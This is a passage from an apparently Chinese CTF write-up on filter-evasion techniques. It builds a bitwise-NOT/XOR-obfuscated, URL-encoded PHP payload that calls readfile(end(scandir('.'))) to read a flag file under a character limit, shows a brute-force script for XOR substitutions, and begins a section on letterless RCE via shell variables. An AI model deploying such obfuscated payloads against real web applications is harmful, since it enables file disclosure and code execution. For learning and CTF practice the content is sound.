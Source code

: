 flag文件在最后，可以使用end直接将指针执行最后一个文件，然后读取，使用readfile(end(scandir(.));

同样先将 readfile(end(scandir(.));进行取反操作

```php
//readfile(end(scandir(.));
((%8D%9A%9E%9B%99%96%93%9A)^(%FF%FF%FF%FF%FF%FF%FF%FF))(((%9A%91%9B)^(%FF%FF%FF))(((%8C%9C%9E%91%9B%96%8D)^(%FF%FF%FF%FF%FF%FF%FF))(%D1^%FF)));
```

同样是16个字符，要使用三个已存在的字符异或生成三个不存在的字符，变成13个字符。

```php
str = 'readfile'
target = 'nsc'
 
for m in target:
    for a in str:
        for b in str:
            for c in str:
                if ord(a)^ord(b)^ord(c) == ord(m):
                    print("{} = {}^{}^{}".format(m,a,b,c))
 
输出(取三个结果)：
n = a^f^i
s = r^e^d
c = a^d^f
```

同理将nsc分别进行异或的生成得到payload:

```php
////readfile(end(scandir(.));
((%8D%9A%9E%9B%99%96%93%9A)^(%FF%FF%FF%FF%FF%FF%FF%FF))(((%9A%9E%9B)^(%FF%99%FF)^(%FF%96%FF)^(%FF%FF%FF))(((%8D%9E%9E%9E%9B%96%8D)^(%9A%9B%FF%99%FF%FF%FF)^(%9B%99%FF%96%FF%FF%FF)^(%FF%FF%FF%FF%FF%FF%FF))(%D1^%FF)));
```

# 利用Shell变量构造无字母RCE

## shell脚本中$的多种用法

和之前一样，首先介绍一下shell脚本中$的多种用法([参考](https://blog.csdn.net/ly_qiu/article/details/105765772))：

| 变量名 | 含义                                                  |
| ------ | ----------------------------------------------------- |
| $0     | 脚本本身的名字                                        |
| $1     | 脚本后所输入的第一串字符                              |
| $2     | 传递给该shell脚本的第二个参数                         |
| $*     | 脚本后所输入的所有字符’westos’ ‘linux’ ‘lyq’          |
| $@     | 脚本后所输入的所有字符’westos’ ‘linux’ ‘lyq’          |
| $_     | 表示上一个命令的最后一个参数                          |
| $#     | #脚本后所输入的字符串个数                             |
| $$     | 脚本运行的当前进程ID号                                |
| $!     | 表示最后执行的后台命令的PID                           |
| $?     | 显示最后命令的退出状态，0表示没有错误，其他表示由错误 |
